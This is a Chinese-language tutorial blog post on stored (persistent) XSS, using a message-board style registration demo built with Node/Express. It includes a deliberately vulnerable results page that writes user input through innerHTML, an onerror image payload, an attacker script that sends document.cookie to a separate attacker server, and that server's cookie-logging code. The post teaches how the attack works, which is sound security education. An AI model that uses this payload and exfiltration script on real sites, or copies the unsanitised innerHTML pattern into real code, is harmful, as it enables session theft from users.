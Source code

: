 ```yaml
---
tags: ['网络安全', '面试问题 - 网络']
---
```


# XSS 攻击 - 存储型

> Posted: 10.24.2019

<Tag />

## 存储型 XSS 的特点

存储型 XSS，也叫持久型 XSS。

主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。）。

然后在下次请求页面的时候就不用带上XSS代码了

最典型的就是留言板XSS：

1. 用户提交了一条包含XSS代码的留言到数据库
2. 当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来
3. 浏览器发现有XSS代码，就当做正常的HTML和JS解析执行
4. XSS攻击就发生了

![xss-stored](/xss-stored.png)

和反射型 XSS 攻击不同的是，<span v-red>**存储型 XSS 直接攻击了具有漏洞的网站本身！**</span>

因为它在数据库里注入了恶意的内容！（当然，最后付出代价的还是用户自己）

## 代码模拟

### 被攻击的服务器

首先我们起一个普通的 node 服务器，作为被攻击的网站服务器。

这个服务器很简单，就是注册用户，然后将用户的邮箱存储到数据库里。

当然，我们这里就不搞真的数据库了，就用内存暂时代替一下。

<span v-line>别问为什么不用 localStorage，localStorage 是 H5 的特性，服务器没有。</span>

```javascript
const express = require("express");
const bodyParser = require("body-parser");
const path = require('path');

const app = express();

// 直接用内存当数据库了
const db = [];

app.use(bodyParser.urlencoded({ extended: true, limit: "50mb" }));
app.use(bodyParser.json({ extended: true, limit: "50mb" }));

app.use(express.static("./xss-stored.html"));
app.use(express.static("./xss-stored-result.html"));

app.get("/index", (req, res) => {
  res.sendFile(path.join(__dirname, './xss-stored.html'));
});

app.get("/result", (req, res) => {
  res.sendFile(path.join(__dirname, './xss-stored-result.html'));
});

app.get("/users", (req, res) => {
  res.status(200).json(db);
});

app.post("/register", (req, res) => {
  const { username, email } = req.body;
  db.push({ username, email });
  res.status(200).end('success!');
});

app.listen(8081, () => console.log("SB server running on port 8081"));
```

### 被攻击的客户端

前端就是用来展示搜索的结果

注册页面：

```html
<body>
  <div class="container">
    <form id="myform">
      用户名： <input type="text" placeholder="username..." id="username" /><br />
      邮箱： <input type="text" placeholder="email..." id="email" /><br /><br />
      <button class="submit-btn">注册</button>
    </form>
  </div>
  <script>
    // 绑定表单的提交
    document.querySelector(".submit-btn").addEventListener('click', (e) => {
      e.preventDefault();
      var username = document.querySelector('#username').value;
      var email = document.querySelector('#email').value;
      var data = { username, email };

      var xhr = new XMLHttpRequest();
      xhr.open('post', '/register', true);
      xhr.setRequestHeader('Content-Type', 'application/json');
      xhr.send(JSON.stringify(data));

      xhr.onreadystatechange = function () {
        if (xhr.readyState === 4 && xhr.status === 200) {
          window.location.href = '/result';
        }
      }
    });
  </script>
</body>
```

注册成功后跳转到结果页面：

```html
<body>
  <div class="result"></div>
  <script>
    // 原生 AJAX 方法
    var xhr = new XMLHttpRequest();
    xhr.open('get', `http://localhost:8081/users`, true);
    xhr.send();
    xhr.onreadystatechange = function () {
      if (xhr.readyState === 4 && xhr.status === 200) {
        var users = JSON.parse(xhr.responseText);
        users.forEach(user => {
          var div = document.createElement('div');
          var text = '用户名：' + user.username + '，邮箱：' + user.email;
          div.innerHTML = text;
          document.querySelector('.result').appendChild(div);
        });
      }
    }
  </script>
</body>
```

最终实现的效果是这样的：

![xss-stored-pro](/xss-store-pro.gif)

### 攻击者寻找目标

攻击者这个时候会注册 `<img src=null onerror="alert('sb')" />` 这个字符串

能够帮助攻击者定位的，就是在结果页面，攻击代码被执行。

![xss stored attack](/xss-stored-attack.gif)

这个时候，攻击已经开始了，攻击者可以进行一些大胆的想法了。

### 开始攻击

和反射型 XSS 不一样，存储型 XSS 不需要发送任何邮件。

只要用户进入到 `localhost:8081/result` 这个页面，就会被攻击。

### 攻击者的攻击脚本

和反射型 XSS 一样，一般来说，就是获取 cookie 并且发送到后台。

但其实能做的事情多了。这里就不一一列举了。

```javascript
// 原生 AJAX 方法
var xhr = new XMLHttpRequest();
xhr.open('get', `http://localhost:8082/attack?q=${document.cookie}`, true);
xhr.send();
xhr.onreadystatechange = function () {
  if (xhr.readyState === 4 && xhr.status === 200) {
    /**
     * 傻逼才会在这里显示攻击成功
     * 我这仅仅出于说明的目的
     */
    console.log('攻击成功！');
  }
}
```

### 攻击者的服务器

然后我们起一个攻击者的服务器，用来处理用户发送的数据。

攻击者的服务器很简单，就是接收请求，然后读取 query string 里面的 cookie 信息。

```javascript
const express = require("express");
const path = require('path');
const app = express();

app.use(express.static("./attack.js"));

app.get("/danger", (req, res) => {
  res.sendFile(path.join(__dirname, './attack.js'));
});

app.get("/attack", (req, res) => {
  // 从 query string 上拿到被攻击者的 cookie
  const { q } = req.query;
  console.log(q);
  res.status(204).end();
});

app.listen(8082, () => console.log("Attacker running on port 8082"));
```

### 结果

当用户进入 result 页面时，我们成功地获取到了他的 cookie

![xss-stored-attack-result](/xss-stored-attack-result.png)

## 参考资料

[前端安全之XSS攻击](https://www.cnblogs.com/unclekeith/p/7750681.html)

[What is Cross Site Scripting (XSS) ?](https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/)

<Disqus />